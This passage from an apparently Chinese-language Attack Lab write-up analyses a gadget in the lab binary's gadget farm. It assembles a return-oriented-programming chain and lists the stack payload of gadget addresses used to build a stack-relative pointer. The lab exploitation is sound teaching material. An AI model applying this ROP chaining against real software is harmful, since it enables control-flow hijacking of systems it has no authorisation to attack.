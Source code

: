 注意到 gadget farm 中函数 `addval_487` 对应的汇编语句：

```asm
0000000000401a40 <addval_487>:
  401a40:   8d 87 89 c2 84 c0       lea    -0x3f7b3d77(%rdi),%eax
  401a46:   c3                      retq
```

其中机器码 `89 c2 84 c0 c3` 对应汇编指令：

```asm
movl   %eax,%edx
testb  %al,%al
ret
```

该指令的地址为 `0x401a42`。这里 `testb %al,%al` 相当于一条无用指令。

至此，我们可以将 `%rax` 的值传到 `%rsi` 寄存器了（`%eax`-> `%edx` -> `%ecx` -> `%esi`）。

###### 5.4.1.8 整合

于是可改写第 1 句指令为：

```asm
popq   %rax
ret
movl   %eax,%edx
testb  %al,%al
ret
movl   %edx,%ecx
cmpb   %cl,%cl
ret
movl   %ecx,%esi
ret

movq   %rsp,%rax
ret
movq   %rax,%rdi
ret

leaq   (%rdi,%rsi,1),%rax
ret
movq   %rax,%rdi
ret
```

在栈中需要保存的内容为：

```text
cc 19 40 00 00 00 00 00             /* popq   %rax                  */
ff 00 00 00 00 00 00 00             /* the value of offset          */
42 1a 40 00 00 00 00 00             /* movl   %eax,%edx             */
34 1a 40 00 00 00 00 00             /* movl   %edx,%ecx             */
13 1a 40 00 00 00 00 00             /* movl   %ecx,%esi             */
06 1a 40 00 00 00 00 00             /* movq   %rsp,%rax             */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
d6 19 40 00 00 00 00 00             /* leaq   (%rdi,%rsi,1),%rax    */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
```
